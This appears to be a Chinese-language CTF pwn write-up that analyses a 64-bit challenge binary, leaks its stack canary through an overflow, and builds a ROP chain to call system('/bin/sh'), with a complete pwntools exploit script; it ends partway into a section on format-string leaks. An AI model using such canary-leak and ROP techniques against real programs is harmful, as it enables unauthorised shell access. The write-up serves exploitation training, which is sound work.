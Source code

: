 使用IDA Pro打开，查看导入表，导出表，string窗口，导入导出表没有需要重点关注的地方。strings有/bin/sh命令行有关的字符串，没有交叉引用，还找到了system函数，可以利用这两部分构造ROP链。

![](https://cdn.nlark.com/yuque/0/2024/webp/40760320/1712065286710-12751d6a-4c31-4cb3-a34f-fa6916b42061.webp)  
  
1、首先暴露canary，buf到canary的距离是(0x240 - 0x8)，高八字节是canary

2、暴露出canary后，继续八字节覆盖ebp

3、查找合适的gadget，构造ROP链。这里因为是64位的系统，传参方式和32位系统不同；32位系统的程序将参数从右到左压入栈中传参，64位系统前六个参数通过rdi，rsi，rdx，rcx，r8，r9传递，从第七个参数开始从右到左压栈传参，只需要找到pop rdi指令，esp就会加8，就可以将原esp处的数据赋值给rdi，完成了参数压栈，再调用system()函数，就可以构造system("/bash/sh")。

小端序说明，数据在[内存](https://so.csdn.net/so/search?q=%E5%86%85%E5%AD%98&spm=1001.2101.3001.7020)里是如何存储的？下表里数据都为16进制

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1712065566320-55569755-f367-47bb-8ff2-c8010fe22c97.png)

使用ROPgadget查看rdi地址  
![](https://cdn.nlark.com/yuque/0/2024/webp/40760320/1712065392491-e3c91804-f1ec-458a-9919-77f7e66831ca.webp)

构造payload:

```
from pwn import *
r= process('./pwn4_')
context(terminal = ['tmux','split','-v'])
#r= remote('114.67.175.224',14037)
elf=ELF('./pwn4_')

rdi = 0x400963
bin_sh = next(elf.search(b'/bin/sh'))
system =0x40080c

payload1 = b'a' * (0x240-0x8)
r.sendlineafter("Please leave your name(Within 36 Length):", payload1)
#gdb.attach(r)
r.recvuntil(b'\n')
print("success")
canary = u64(b'\x00'+r.recv(7))
print(hex(canary))
print("-----------")
payload2 = b'a' * (0x210-0x8) +p64(canary)+b'a' * 8 +p64(rdi) +p64(bin_sh)+p64(system)
r.sendlineafter("Please leave a message(Within 0x200 Length):", payload2)
r.interactive()
```

##### 2.格式化字符串泄露

**知识:**格式化字符串漏洞是因为c语言中printf的参数个数不是确定的，参数的长度也不是确定的，当printf把我们的输入当作第一个参数直接输出的时候，我们输入若干格式化字符串，会增加与格式化字符串相对应的参数，会泄露出栈中的内容。

###### 例题演示：

查看文件，发现开启了NX，canary
